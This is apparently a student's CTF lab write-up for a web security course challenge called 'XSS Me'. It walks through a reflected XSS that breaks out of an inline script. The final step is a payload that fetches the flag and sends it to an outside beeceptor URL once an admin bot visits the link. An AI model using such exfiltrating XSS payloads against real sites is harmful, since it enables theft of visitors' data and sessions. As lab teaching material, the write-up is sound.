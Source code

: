 ```yaml
---
title: Simple Web 0x11(Lab - XSS Me)
tags: [NTUSTWS, CTF, Web]

category: "Security/Course/NTUST WS/Fronted"
---
```


# Simple Web 0x11(Lab - XSS Me)
<!-- more -->
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:8800/

## Background
:::spoiler
攻擊者沒有直接攻擊受害者，而是把惡意程式植入到受害者會瀏覽的網頁，當受害者瀏覽該網頁時，就會自動執行惡意程式，並把受害主機的一些資料送回給駭客(這是其中一種受害方式，也可能很直接的被盜取`COOKIE`之類的)
![](https://i.imgur.com/lZ0bj41.png)

![](https://i.imgur.com/grJXpr7.png)

![](https://i.imgur.com/q9fwa6z.png)
:::

## Source code
```javascript!
...
<script>
    const message = {"icon": "error", "titleText": "User not found.", "timer": 3000, "showConfirmButton": false, "timerProgressBar": true};
    window.onload = function () {
        if (message !== null) Swal.fire(message);
    }
</script>
...
```

## Exploit
1. Check XSS
    ```javascript!
    ...
    <script>
        const message = {"icon": "error", "titleText": "youshallnotpass", "timer": 3000, "showConfirmButton": false, "timerProgressBar": true};
        window.onload = function () {
            if (message !== null) Swal.fire(message);
        }
    </script>
    ...
    ```
    ![](https://i.imgur.com/OffMAUF.png)
2. Try to inject script tag
Payload: `http://h4ck3r.quest:8800/?type=error&message=%3C/script%3E%3Cscript%3Ealert(123)%3C/script%3E//`
    ```javascript!
    ...
    <script>
        const message = {"icon": "error", "titleText": "</script><script>alert(123)</script>//", "timer": 3000, "showConfirmButton": false, "timerProgressBar": true};
        window.onload = function () {
            if (message !== null) Swal.fire(message);
        }
    </script>
    ```
    ![](https://i.imgur.com/1cZJvIv.png)
* Hint
If you login as guest(password = guest), then you can get the response
![](https://i.imgur.com/s2R75Xf.png)

3. Fetch flag and send to [beeceptor](https://beeceptor.com/)
Payload: 
    ```!
    http://h4ck3r.quest:8800/?message=%3C/script%3E%3Cscript%3Efetch(`/getflag\).then(r=%3Er.text()).then(flag=%3Elocation.href=`https://sbk6401.free.beeceptor.com/?f=${flag}`)%3C/script%3E//
    ```

4. Report to admin. Then you got flag!!!